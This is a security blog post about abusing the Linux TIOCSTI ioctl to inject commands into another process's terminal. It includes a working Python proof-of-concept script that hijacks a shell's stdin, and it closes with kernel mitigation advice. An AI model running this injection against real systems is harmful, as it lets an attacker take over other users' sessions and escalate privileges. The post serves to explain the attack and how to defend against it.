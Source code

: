 **_Disclaimer:_** _You are free to use presented knowledge for educational purposes, with good intentions (penetration testing, ctf’s etc.), or not._ **_I am not responsible for anything you do._**

---

I wrote this article back in 2021, and it was available on my old website. Since 2022, there's a mitigation available, so I've decided to bring the article back and update it.

---

## The TIOCSTI interface abuse

### **Prerequisite:** root

> (Not always! This is a potential privilege escalation and lateral movement vector.)

Imagine that you could take control over processes' stdin. For example inject commands into someones shell, giving impression, that the shell has been took control over and is executing commands by itself.

How does one manage to affect the file descriptors of a process in such unsafe way?

[Dangerous interface - TIOCSTI.](https://undeadly.org/cgi?action=article;sid=20170701132619) 

A common use of this interface, is to control hardware devices. But it can be also used to inject commands into unsuspecting TTY's, even connected to other devices for example over SSH.

Proof of Concept: 

```python
import sys, os 
import termios, fcntl 

# specify tty
process = sys.argv[1]

# Open the process input file descriptor
fd = "/proc/" + process + "/fd/0" 
fd_handle = os.open(fd, os.O_RDWR) 

while True: 
  line = input(f"{fd} $ ") 
  for character in line: 
     fcntl.ioctl(fd_handle, termios.TIOCSTI, character)
  fcntl.ioctl(fd_handle, termios.TIOCSTI, '\x0d')
```

In the example above we are attaching to the process stdin, sending chars one by one, and then executing the command by sending the **'\x0d'** shell escape char.

### What is the result?

![Proof of Concept](images/poc.gif)

 > In summary, it is possible to transparently take control over a program descriptor using TIOCSTI.

## Mitigation

TIOCSTI is a kernel problem.
https://jdebp.uk/FGA/TIOCSTI-is-a-kernel-problem.html

If you use BSD, you are safe, as this interface has been removed completely.
In case you use Linux, it is enabled by default, however, it is possible to disable it since 2022, Kernel version 6.2.

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04b22aaed1df99bc70a48fe9d22c4d

Recompile your kernel with this setting as below:

```
CONFIG_LEGACY_TIOCSTI=n
```


Disabling this interface may result in programs relying on TIOCSTI to break.

If you wan't to continue using TIOCSTI, make sure to test if only privileged users are able to use it, and there are no vulnerable apps there to abuse it, **to prevent privilege escalation scenarios.**

Example privilege escalation:
https://vuldb.com/?id.223097

Stay safe!

K.